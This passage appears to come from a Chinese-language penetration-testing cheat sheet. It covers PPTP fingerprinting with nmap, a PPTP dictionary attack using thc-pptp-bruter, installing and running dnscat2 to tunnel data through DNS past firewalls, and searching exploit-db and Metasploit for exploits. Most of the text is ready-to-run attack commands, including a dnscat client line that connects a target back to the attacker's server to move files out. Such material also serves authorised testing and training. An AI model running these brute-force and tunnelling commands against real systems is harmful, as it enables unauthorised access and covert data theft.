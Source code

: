 #### PPTP Hacking

验证PPTP服务 ，它以TCP协议在1723端口监听

##### NMAP PPTP 指纹识别:

```
nmap –Pn -sV -p 1723 TARGET(S)
```

##### PPTP字典攻击

```
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
```

### DNS 隧道

通过DNS传送数据来绕过防火墙。dns2cat支持和目标主机间 的上传和下载文件（数据或程序）操作。

#### 攻击机器：

安装:

```
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
```

运行dnscat2:

```
ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422
```

目标机器:

https://downloads.skullsecurity.org/dnscat2/ 

https://github.com/lukebaggett/dnscat2-powershell/

```
dnscat --host <dnscat server_ip>
```

## BOF / Exploit

## Exploit 搜索

寻找枚举主机/服务的exp

| 命令                                                         | 解释                                                |
| ------------------------------------------------------------ | --------------------------------------------------- |
| `searchsploit windows 2003 | grep -i local`                  | 从 exploit-db搜索EXP, 这里以WIndows2003本地提权为例 |
| `site:exploit-db.com exploit kernel <= 3`                    | 使用Google搜索exploit-db.com                        |
| `grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/*` | 用grep搜索metasploit的模块——因为msf的搜索有点差劲。 |

